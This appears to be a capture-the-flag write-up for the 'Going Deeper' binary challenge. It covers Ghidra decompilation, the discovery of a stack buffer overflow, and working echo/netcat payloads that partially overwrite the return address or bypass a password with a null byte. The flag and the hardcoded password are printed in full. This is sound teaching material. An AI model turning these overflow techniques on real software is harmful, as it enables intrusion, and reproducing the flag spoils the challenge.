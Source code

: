 # Going Deeper

## First Look

![Going Deeper Application Prompt](images/going-deeper.png)

We are faced with a banner and a menu prompt.  Select (1) to disable the safety mechanisms or (2) to attempt to login.  We want to get in, so why even talk about (3)?  A follow up prompt is

## Analyzing the Program

We start by opening the program in Ghidra and utilizing its analysis in an attempt to get a basic understanding of the program.  Starting with the function in the symbol tree, we immediately see some possibly useful names (highlighted in the below image).

![Ghidra Symbol Tree - Highlighted: admin panel, banner, main, read_num, setup](images/symbol-tree.png)

Let's start with main of course.  We will use Ghidra's approximated decompilation where it's useful.

```c
undefined8 main(void)
{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Simple.  Setup and banner are not interesting, so let's go to the admin_panel.

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 != 0xdeadbeef) || (param_2 != 0x1337c0de)) || (param_3 != 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
      goto LAB_00400b38;
    }
  }
  printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
  system("cat flag*");
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Scanning through the code, we see our initial menu option being read into `local_10`, followed by some control flow logic to determine which selection was made.  Finally, we get to provide our second input, which is read into `local_38` and compared against a particular string value.

```c
read(0,local_38,0x39);
...
iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
```

As a side note, it looks like menu options 2 and 3 both fall to the same call to `read()`.

## Next Steps

Let's take stock of what we know.

- We read 0x39 (57) bytes into `local_38` and compared 0x34 (52) bytes of it against the string `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` with a length of 51 plus a null byte.

  - A quick check on the declation of `local_38` reveals that only 40 bytes were allocated!!  Looks like a likely candidate for a stack buffer overflow:

```c
    char local_38 [40];
```

- At first glance, it looks like we can just paste in the secret string, but we are disappointed to find that the call to `read()` happily gobbles our newline character.

  - I won't go into detail, but I'll provide a second payload later that uses a null byte to skip the need for the buffer overflow we're seeing hints of.

## Crafting a payload

Let's start with the classic payload of As.  As we observed, we can provide up to 57 bytes on our second prompt, so let's see what happens.  I'm admittedly not the best with gdb yet, so I'll put my payload in a file for each file redirection:

`echo -n 1AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >payload`

Note the 1 at the start is for our initial menu selection.

Set our breakpoint:

![gdb output with breakpoint set at 0x400abf](images/breakpoint.png)

Let's take a look at our stack after reading in the payload:

![gdb stack output after payload is read](images/first-payload-stack.png)

Wait...

I only count 27 As.  There should be 57, but we seem to be short by 30.  What happened?  

## Going... Deeper

If we look back at our code for the `admin_panel` function, we notice that our menu option is read in using a function called `read_num()`.  Now, I'm not familiar with every function call in libc, but this is one I'm not familiar with.  Let's take a look:

```c
void read_num(void)
{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  read(0,&local_28,0x1f);
  strtoul((char *)&local_28,(char **)0x0,0);
  return;
}
```

Aha!  The function includes another call to `read()` with 0x1f (31) bytes.  Only the valid digits at the start of the data are kept by strtoul and the rest are just discard.  So `read_num()` read our 1 and thirty of our As, that latter of which just got ignored.

Let's update our payload to have 30 more characters in it and see what happens.

`echo -n '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' >payload`

Stack output from gdb:

![gdb stack output after second payload is read. Byte 0x7fffffffe3c9 is underlined.](images/second-payload-stack.png)

No sign of any of the 30 Bs we added to the payload, and we can see all 57 As!  Notice the underlined byte.  This is the final byte of the return address for `admin_panel`! (I leave it to the reader as a basic buffer overflow exercise to verify that this is the function's return address)

Some inspection of the program's address space reveals that most of our program code falls between `0x400b00` and `0x400bff`.  Crucially, the call to print the flag is here:

```c
0x400b12 <admin_panel+297>:  lea    rdi,[rip+0xaa5]        # 0x4015be
0x400b19 <admin_panel+304>:  call   0x400700 <system@plt>
```

It looks like we can modify out payload to have 0x12 as our final byte and print our flag.  Let's try.

`echo -ne '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x12' >payload`

Run our program with the payload against the challenge docker:

`nc 159.65.58.144 30131 <payload`

![pipe payload into netcat, get flag!](images/flag.png)

And there you have it!

`HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}`

## Bonus Payload

It wasn't the intended solution, but we can get the flag by just passing the string comparison.  We do this by passing in the secret string terminated by a nullbyte.

`echo -ne '1BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBDRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00' > payload`

![pipe bonus payload into netcat, get flag!](images/authenticated.png)

As a bonus bonus -- no authentication failure or security alarms!